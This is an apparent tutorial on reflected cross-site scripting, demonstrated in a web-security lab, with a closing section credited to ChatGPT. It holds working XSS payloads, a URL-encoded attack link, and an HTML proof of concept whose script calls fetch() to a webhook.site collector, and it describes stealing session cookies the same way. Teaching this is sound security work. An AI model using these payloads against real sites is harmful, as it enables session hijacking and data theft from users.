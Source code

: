 <h1>What The Heck Is Cross Site Scripting???</h1>
Cross Site Scripting (XSS) is a web attack that runs arbitrary javascript in the context of the user's browsing session. So all cookies that are targeted with the XSS attack will be the cookie's in the victim's browser. Attackers using XSS against a victim essentially take momentary "control" of the victim's browser. Attackers can potentially use XSS to make a victim travel to a malicious domain, or change their email address, or send their sensitive cookies (or other data) to a malicious web server for collection.

<h2>Our First XSS Example</h2>

Analyze the images below.

![image](https://github.com/user-attachments/assets/467b33ba-e895-4b52-b549-6cedef4b8cbf)
![image](https://github.com/user-attachments/assets/2062483b-d93a-46f0-a6a5-528937e6ce0f)

In the above images, XSS was found in the search bar of a blog. I inject a <script>prompt("Is This XSS???")</script> into the search bar of the blog. Afterwords, a prompt alert is displayed on the screen, and the XSS payload is reflected in the **search** parameter in the URL. This
is known as Reflected XSS. Let's look at the page source to see where the XSS is taking place.

![image](https://github.com/user-attachments/assets/69d9267d-577b-416b-a73e-0a8dd243e3af)

If you look at the above small cut-out of the page source of the blog web page, our malicious <script></script> get's injected into an header tag. This is called **Reflected XSS into HTML Context**. Our XSS payload is injected into the part of the HTML that reflects the user's search query back to them on the page.

<h2>How Would An Attacker Send The Payload To The Victim?</h2>

1. The attacker could send this link with the URL encoded payload to the victim (https://0a14002e046c635e83201e50006d006a.web-security-academy.net/?search=%3Cscript%3Eprompt%28%22Is+This+XSS%3F%3F%3F%22%29%3C%2Fscript%3E) and if the victim visits the link the javascript will execute in the context of the victim's browser. This specific xss payload will make "Is This XSS" alert to the victim's screen.

2. The attacker could also host the following malicious HTML on their domain, and when the victim visits the attacker's webpage and clicks the link, the victim's browser will travel to the location in the link and execute the javascript. This specific javascript alerts "This is XSS" to the victim's screen and then makes the victim send a GET request to the attacker's malicious server with a parameter+value of "msg=xss-confirmed".

```
<!DOCTYPE html>
<html>
<body>   
<script>
window.location.href = "https://0a14002e046c635e83201e50006d006a.web-security-academy.net/?search=%3Cscript%3Ealert%28%22This%20is%20XSS%22%29%3Bfetch%28%22https%3A%2F%2Fwebhook%2Esite%2Ff4a05f1e%2D0bcd%2D4083%2D9769%2D25f5bce3d45e%3Fmsg%3Dxss%2Dconfirmed%22%29%3C%2Fscript%3E";
</script>
</body>
</html>
```

For context, this is what the victim user would see on their screen after traveling to the attacker's malicious domain where the above html proof of concept is hosted:

**Victim's View**

![image](https://github.com/user-attachments/assets/acfb67a0-262a-4f65-baa8-b557489aeace)

And this is what the attacker would see on their malicious server after the XSS payload is executed in the victim's browser:

**Attacker's View**

![image](https://github.com/user-attachments/assets/e01df473-a944-42b9-ac7e-f76bf15ce73d)

Obviously, no sensitive data was sent over with this XSS payload. However, if other misconfigurations were present on the target website, an attacker could have made the victim user send their session cookie to the attacker's server. The attacker could then use the victim's session cookies to conduct a Session Hijacking on the victim user's account, which essentially means the attacker would be able to be logged in as the victim user.

<h1>ChatGPT Generated Conclusion</h1>

Cross-Site Scripting (XSS) remains one of the most prevalent and dangerous vulnerabilities in modern web applications due to its ability to execute arbitrary JavaScript in the victim's browser. As demonstrated, attackers can exploit poorly sanitized input to inject payloads that execute in the context of a user's session, potentially exposing sensitive data such as cookies, session tokens, or personal information.

The technical impact of XSS goes beyond simple proof-of-concept alerts—it enables attackers to perform session hijacking, force unauthorized actions via CSRF, exfiltrate data, and even deploy more complex attacks such as browser-based keyloggers or malware delivery. This underscores the importance of robust input validation and output encoding practices, along with the implementation of Content Security Policy (CSP), HTTP-only cookies, and other defense-in-depth mechanisms.

By understanding the anatomy of XSS attacks and their potential consequences, security professionals and developers can take a proactive approach to detect, mitigate, and prevent this vulnerability, ensuring a safer web for users.

